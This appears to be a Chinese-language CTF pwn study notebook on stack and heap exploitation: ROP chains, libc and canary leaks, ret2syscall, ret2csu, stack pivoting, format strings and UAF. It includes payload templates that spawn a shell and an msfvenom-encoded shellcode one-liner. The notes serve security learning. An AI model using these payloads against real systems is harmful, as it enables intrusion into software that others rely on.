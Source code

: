 # PWN

+ 技巧总结 https://www.cnblogs.com/xshhc/p/16939678.htmlz
+ 二进制资料 https://abcdxyzk.github.io/blog/cats/assembly/
+ 参考 https://www.yuque.com/hxfqg9/bin
+ ![1708946346737](image/pwn/1708946346737.png)

## 做题笔记-stack

### ROP

+ padding+rdi_ret+sh_str+ret+sys

### LeakLibc

+ padding+(canary+bit[if exist])+rdi_ret+puts_got+puts_plt+leak_print_addr

### Canary leak

Canary存在ebp之前 其大小取决于程序的bit 0x04 0x08

https://cloud.tencent.com/developer/article/1740319

1. Payload_Leak = Padding + p64(Canary) + Padding_Ret + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
2. Payload_Shell = Padding + p64(Canary) + Padding_Ret + p64(ret) + p64(rdi) + p64(binsh) + p64(system)

### glibc 2.27

+ 得知glibc2.27以后引入xmm寄存器, 记录程序状态, 会执行movaps指令, 要求rsp是按16字节对齐的, 所以如果payload这样写
  `payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr)`
  弹出的数据是奇数个, 本地就会报错
  但是改成偶数个pop
  `payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(ret_addr) + p64(system_addr)`
  就能打通本地了

### ret2syscall

+ 参考 https://www.cnblogs.com/fuxuqiannian/p/16913836.html
+ 没有sys且开启了NX
+ 32：pop,a,b,c,d,ret execve调用号 0xb写在pop,a后 其余两个寄存器覆盖0 p32(0) 最后执行int80 addr
+ 64：传参的寄存器是rdi->rsi->rdx->rcx->r8->r9 execve调用号 0x3b 最后执行syscall addr
+ ![1708929874831](image/pwn/1708929874831.png)

### ret2csu

+ https://ctf-wiki.org/en/pwn/linux/user-mode/stackoverflow/x86/medium-rop/
+ 1.查找利用gadgets
  + ![1709018072974](image/pwn/1709018072974.png)![1709018199735](image/pwn/1709018199735.png)
+ 2.给寄存器赋值 按照64的参数顺序![1709018264113](image/pwn/1709018264113.png)
+ 3.泄露write地址 使得程序重新运行main函数，根据libc基地址计算system函数和binsh字符串的真实地址，构造ROP链![1709018463535](image/pwn/1709018463535.png)

### ret2shellcode

+ http://shell-storm.org/shellcode/files/shellcode-819.html
+ b64shellcode编码的buf执行
  + `python -c ``'import sys; sys.stdout.write("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'` `| msfvenom -p - -e x86``/alpha_mixed` `-a linux -f raw -a x86 --platform linux BufferRegister=EAX -o payload`
  + BSides San Francisco CTF 2017-b_64_b_tuff

### fmt

+ 查找溢出位置相对于flag变量的位置 计算出偏移
+ %偏移%s 泄露偏移地址上的值作为string类型输出
+ 小大端序问题
+ ```python
  nums=["657b46544353534e","2d34653333386238","3165342d65313936","622d383534382d30",
  "6565306232346663","7d363731"]
  for strs in nums:
      i = len(strs)-2
      while i >= 0:
          num = strs[i:i+2]
          print(chr(int(num,16)),end="")
          i = i-2
  ```

### StackSmash

+ https://blog.csdn.net/m0_74020775/article/details/129858952
+ canary检查到不同时，报StackSmash错，输出$__libc_argv[0] 第一个环境变量 也就是程序本身目录，构造ROP链达到输出想要的内容

### 栈迁移

+ https://xz.aliyun.com/t/12738
+ 对于只能溢出覆盖掉一个地址大小的栈。开启NX，no-pie，栈迁移到bss段
+ 计算出当前溢出后得到的ebp与pre main ebp计算，得到偏移，到达迁移后的栈。给足所需字符串字节大小。'/bin/sh\x00'=16bytes。call sys,ret
+ 栈迁移是一种技术，用于在利用漏洞时控制程序的执行流。它通常用于绕过保护机制，如栈溢出。
  栈迁移的核心在于使用两次 leave; ret 指令：
  第一次 leave 指令将 ESP 设置为 EBP 的值，即栈顶和栈底指向同一位置。
  然后执行 pop ebp，将栈顶的内容弹入 EBP，此时栈顶的内容也就是 EBP 的内容。
  第二次 leave 指令执行后，ESP 移动到了 EBP 的位置，再次执行 pop ebp，将栈顶的内容弹给 EBP。
  此时控制流跳转到返回地址，实现了栈迁移。

### off_by_null

+ 只溢出一个字节 通常是\x0 null byte

### nop_sled

+ 插入大量NOP指令，增加访问到自己的shellcode的领空概率

### strlen

+ 若程序read(buf,0x100) 但buf只有0x50大小，紧接着程序判断
+ ```c
  int len=strlen(buf);
  if (len>0x50)
  	return(0);
  ```
+ 我们可以使用payload=b'\x00'+padding-1来绕过这个判断

### 数组越界写

+ // 数组越界写
  puts("Here is the seat from 0 to 9, please choose one.");
  __isoc99_scanf("%d", &v0);
  read(0, &seats[16 * v0], 0x10uLL);
+ //.bss:00000000004040A0                               public seats
+ ![1710059269098](image/pwn/1710059269098.png)
+ 0x404040达到got.plt的exit函数 可构造返回函数ROP
+ 通过返回到main二次构造ROP 泄露libc_base后加上one_gadget构造exp


## 做题笔记-heap

> https://bbs.kanxue.com/thread-246786.htm
>
> https://www.cnblogs.com/luoleqi/p/12840154.html

### heap

+ https://www.freebuf.com/articles/endpoint/371095.html
+ malooc，free

### UAF

+ use after free
+ 内存空间未被设置NULL的使用

### patchelf

+ ```
  patchelf --set-interpreter 你的文件目录/ld-linux-x86-64.so.2 ./pwn

  patchelf --add-needed 你的文件目录/libc.so.6 ./pwn

  patchelf --add-needed 你的目录/libpthread.so.0 ./pwn （如果提示没有libpthread.so.0的话）
  ```
+

